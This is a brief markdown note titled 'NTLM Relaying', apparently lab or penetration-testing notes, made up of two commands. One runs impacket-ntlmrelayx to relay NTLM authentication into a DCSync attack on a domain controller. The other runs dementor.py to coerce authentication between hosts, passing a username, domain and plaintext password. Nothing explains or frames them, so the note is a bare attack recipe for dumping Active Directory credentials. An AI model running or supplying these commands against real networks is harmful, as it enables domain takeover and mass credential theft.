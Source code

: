 # NTLM Relaying

`impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support`

`python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123`